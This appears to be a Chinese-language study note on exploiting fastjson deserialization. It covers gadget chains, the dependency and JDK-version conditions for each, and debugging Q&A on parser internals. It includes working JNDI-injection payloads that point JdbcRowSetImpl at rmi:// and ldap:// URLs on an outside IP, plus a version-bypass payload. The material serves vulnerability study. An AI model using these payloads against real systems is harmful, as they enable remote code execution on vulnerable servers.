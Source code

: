 # fastjson全教程
https://www.rc.sb/fastjson/#fastjson1280
https://y4er.com/posts/fastjson-learn
https://paper.seebug.org/994/
## fastjson1.2.80 poc
https://github.com/YoungBear/FastjsonPoc

# 工具
## fastjson-blacklist(hash解码)
https://github.com/LeadroyaL/fastjson-blacklist

# poc
## 1.com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
常规的Java字节码的执行，但是需要开启Feature.SupportNonPublicField，比较鸡肋
## 2.com.sun.rowset.JdbcRowSetImpl
用到的是JNDI注入，利用条件相对较低，但是需要连接远程恶意服务器，在目标没外网的情况下无法直接利用
### 低版本jdk-rmi协议
6u132, 7u122, 8u113之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
### 低版本jdk-ldap协议
6u211, 7u201, 8u191, 11.0.1之前
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"ldap://47.95.7.37:1389/Calc", "autoCommit":true}";
### 高版本jdk
开启 TomcatBeanFactoryServer 绑定恶意类到registry, 无需外部获取Factory, 利用本地tomcat依赖中的Factory
String poc = "{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://47.95.7.37:1099/Calc", "autoCommit":true}";
受害者本地需要有下面依赖
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>8.5.0</version>
</dependency>
```
并且需要如下任选其一作为BeanFactory加载的类, 来执行其中的eval表达式
```text
<dependency>
    <groupId>org.apache.el</groupId>
    <artifactId>com.springsource.org.apache.el</artifactId>
    <version>7.0.26</version>
</dependency>
<dependency>
    <groupId>org.codehaus.groovy</groupId>
    <artifactId>groovy-all</artifactId>
    <version>1.5.0</version>
</dependency>
```
## 3.org.apache.tomcat.dbcp.dbcp2.BasicDataSource(1.2.42poc尝试了)
一个字节码的利用，但其无需目标额外开启选项，也不用连接外部服务器，利用条件更低
受害者本地需要有下面依赖, 并且jdk版本小于8u251, 版本限制是因为过高bcel无法使用
```text
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>9.0.8</version>
</dependency>
```


# 疑问
1.TestDeSerialization中为什么会调用一次getter -> getProp2_2() is called
回答: 特殊的getter:
(1)字段是Map/Collection/AtomicLong/AtomicInteger/AtomicBoolean的子类 -> /com/alibaba/fastjson/util/JavaBeanInfo.java:504
(2)setter返回的类不是getter传入类的父类(基本上有setter又有getter的就无法执行getter了) -> com.alibaba.fastjson.util.JavaBeanInfo.add
(3)item.compareTo(field) < 0

2.为什么parseObject需要Feature.SupportNonPublicField？
没有setter的private为null 我们需要这个来为private赋值

3.为什么需要_outputProperties属性？
反序列化的时候会执行getter方法, 因为_outputProperties是Properties类型是Map的子类 在执行反序列化的时候会执行相应的getter
详见/com/alibaba/fastjson/util/JavaBeanInfo.java:504
并且会执行smartMatch方法去掉_
详见com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.smartMatch()

4._bytecodes为什么需要base64编码？
解析顺序如下:
_bytecodes
_name
_tfactory
_outputProperties

在com.alibaba.fastjson.serializer.ObjectArrayCodec.deserialze 这块执行String to byte[]

具体调用链如下:
deserialze:138, ObjectArrayCodec (com.alibaba.fastjson.serializer) [2]
parseArray:723, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:177, ObjectArrayCodec (com.alibaba.fastjson.serializer) [1]
parseField:71, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:78, FastJson1_LE1224


5._tfactory为什么为{}？
跟踪到这块的时候明明传入的是null, 结果进去就自动生成object了
com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(com.alibaba.fastjson.parser.DefaultJSONParser, java.lang.reflect.Type, java.lang.Object, int)
排除debug本身的问题因为toString和上面那个选项都关掉了 有可能是代码有拦截器 -> FastjsonASMDeserializer_1_TransformerFactoryImpl
找到答案: asm生成类
com.alibaba.fastjson.parser.deserializer.ASMDeserializerFactory.createJavaBeanDeserializer
问题:
尝试学习asm

6.getOutputProperties()
fastjson-1.2.24-sources.jar!/com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java:599

7.a
1.2.43如何调试出使用如下绕过?
{
"@type": "[com.sun.rowset.JdbcRowSetImpl"[{
"dataSourceName": "xxx",
"autoCommit": true
}


# 遇到的问题
多个版本的fastjson存在于External Libraries的时候无法运行调试